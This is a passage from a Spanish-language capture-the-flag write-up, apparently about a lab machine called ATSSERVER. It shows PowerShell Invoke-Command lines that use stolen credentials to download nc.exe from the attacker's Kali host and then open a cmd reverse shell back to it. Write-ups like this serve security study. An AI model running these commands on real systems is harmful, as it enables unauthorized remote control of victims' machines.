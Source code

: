 <figure><img src="../../../.gitbook/assets/3061_vmware_EIx5szUKvv.png" alt=""><figcaption></figcaption></figure>

Para poder ganar acceso a la máquina para disponer de control remoto en una Shell y no a través de este método de PowerShell Web Acces mediante ScripBlock, lo que realizaremos es lo siguiente:

Nos compartiremos el binario de _**nc.exe**_ desde nuestra Kali y lo descargaremos en _**ATSSERVER**_ mediante "wget".

Una vez lo tengamos en el equipo víctima, procederemos a ejecutar para entablarnos una Reverse Shell a nuestra Kali.

{% code overflow="wrap" %}
```powershell
Invoke-Command -ComputerName ATSSERVER -Credential $Cred -ScriptBlock { wget 10.10.16.7/nc.exe -outfile \programdata\nc.exe }

Invoke-Command -ComputerName ATSSERVER -Credential $Cred -ScriptBlock { \programdata\nc.exe -e cmd 10.10.16.7 443}
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/3065_vmware_TWh6BnAl4v.png" alt=""><figcaption></figcaption></figure>
